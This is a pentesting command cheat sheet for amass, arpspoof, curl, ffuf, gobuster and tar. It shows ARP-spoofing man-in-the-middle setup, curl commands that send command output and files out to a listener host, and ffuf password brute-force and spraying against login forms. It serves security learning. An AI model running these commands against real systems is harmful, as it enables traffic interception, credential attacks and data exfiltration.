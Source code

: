 # Commands

---

## amass

Amass is a tool which helps us perform external asset discovery using open source information gathering and active reconnaissance techniques.

This package contains several wordlists for performing DNS name alterations and brute forcing.

### enum

Amass uses different *subcommands*. Here are some ways we can use the *enum* subcommand.

`sudo amass enum -d elsfoo.com` | the -d flag is to specify the domain

`sudo amass enum -passive -d elsfoo.com` | the -passive flag specifies only run passive techniques

`sudo amass enum -d elsfoo.com -src -ip -dir ./amass_1` | the -src flag gives us the source of the data | the -ip flag gives us the IP address of the subdomain | the -dir flag lets us specify the directory to save the scan results

`sudo amass enum -d elsfoo.com -src -ip -brute -dir ./amass_brute` | the -brute flag launches a brute-force attack of sub-domains

### viz

Another *subcommand* is the *viz* subcommand which lets us generate different types of report to visualize the amass scans.

`sudo amass viz -dir ./amass_1 -d3` | the -d3 flag specifies a d3 report which uses html

---

## arp spoof

Before we run a *man in the middle* attack, we need to configure our machine so traffic can be forwarded.

`echo 1 > /proc/sys/net/ipv4/ip_forward` | configures the machine to forward traffic

We can now spoof the machines we are targetting. One of these machines will be the gateway.

`sudo arpspoof -i eth0 -t 172.16.5.30 172.16.5.1`

`sudo arpspoof -i eth0 -t 172.16.5.1 172.16.5.30`

---

## curl

We can use *curl* to establish a connection to a remote machine. We will need to use a *netcat* listener on the machine we are connecting to.

`sudo curl http://192.168.56.101:53`

We can send the results of system commands which do not includ blank spaces in their results.

`sudo curl http://192.168.56.101:53/whoami`

If there will be reserved characters in the result, we can *base64* encode the data before sending it.

`sudo curl http://192.168.56.101:53/id|base64`

We can then decode the data.

`echo djKK81jsDT== | base64 -d` | the -d flag specifies decode

We can use *curl* to transfer files using the -T flag.

`sudo curl http://192.168.56.101:53/interesting_file.txt -T /tmp`

---

## ffuf

*ffuf* is used for directory busting, dns subdomain finding and various activities related to dictionary attacks | it is fast.

Default mode to perform **directory busting** | we can use the `-fs 3121` flag to filter out responses based on their **size** | here we are specifying that we do not want to see responses which have a size of **3121** as we have ascertained that they are non-existent resources.

`sudo ffuf -u https://example.com/FUZZ -w /usr/share/dirb/wordlists/common.txt -fs 3121`

We can filter by **matching** responses we want to see using the `-mc` flag.

`sudo ffuf -u https://example.com/FUZZ -w /usr/share/dirb/wordlists/common.txt -mc 200,301,302`

We can **filter out** responses we do not want to see based on their **response code** using the `-fc 404` flag.

`sudo ffuf -u https://example.com/FUZZ -w /usr/share/dirb/wordlists/common.txt -fc 404`

Default mode to run a dictionary attack against a username | the flag `-mc 302` matches **302** redirects maybe useful for valid logins.

`username=admin&password=FUZZ`

`sudo ffuf -request req3.txt -request-proto https -w /opt/SecLists/Passwords/Leaked-Databases/rockyou-75.txt:FUZZ -mc 302`

Password spray emulation using `-mode clusterbomb` | prepare a list of usernames and a password list with 1 or maybe up to 3 passwords in.

`username=FUZZUSER&password=FUZZPASS`

`sudo ffuf -request req3.txt -request-proto https -mode clusterbomb -w user.txt:FUZZUSER -w pass.txt:FUZZPASS -mc 302`

Using a `-mode pitchfork` attack so each username is tried with its corresponding password across a user list and password list. The `-rate 1` flag limits the requests to **1 per second** so the usernames and passwords get sent together in the correct order. The `-o` flag lets us specify how to output the results.

`sudo ffuf -request req3.txt -rate 1 -request-proto https -mode pitchfork -w users.txt:FUZZUSER -w passwords.txt:FUZZPASS -mc 302 -o results.txt`

We can use **ffuf** with **json** post request data.

`{"email":"FUZZUSER","password":"FUZZPASS"}`

---

## gobuster

*gobuster* is great for **directory busting** and it can also **fuzz vhosts**

Basic command for **directory busting**.

`sudo gobuster dir -u https://example.com -w /usr/share/dirb/wordlists/common.txt`

It can search for **file extensions** using the `-x` flag.

`sudo gobuster dir -u https://example.com -w /usr/share/dirb/wordlists/common.txt -x bak,old,txt,sh,php`

If we have valid creds and want to search behind **password protected areas** we can use.

`sudo gobuster dir -u https://example.com/project -U admin -P mickeymouse123 -w /usr/share/dirb/wordlists/common.txt -x config,php`

To **fuzz vhosts** we can use.

`sudo gobuster vhost -u https://example.com -w /usr/share/amass/wordlists/subdomains-top1mil-20000.txt`

---

## tape archive

*tar* is used to archive files and directories. It does not have to be compressed but it can be.

Archive files are simply a collection of files which have been archived into one file - they can be unarchived back into their original form.

`sudo tar -cvf file.tar *` | the -c flag creates an archive | the -v flag is for verbose output | the -f flag lets us specify the archive filename | the * wildcard specifies all the files in a directory

`sudo tar -xvf file.tar` | the -x flag specifies extract all the files to their original form

`sudo tar -zcvf file.tar` | the -z flag specifies compress the archive file using *gzip*

`sudo tar -zxvf file.tar` | this command decompresses and extracts the compressed and archived files

---
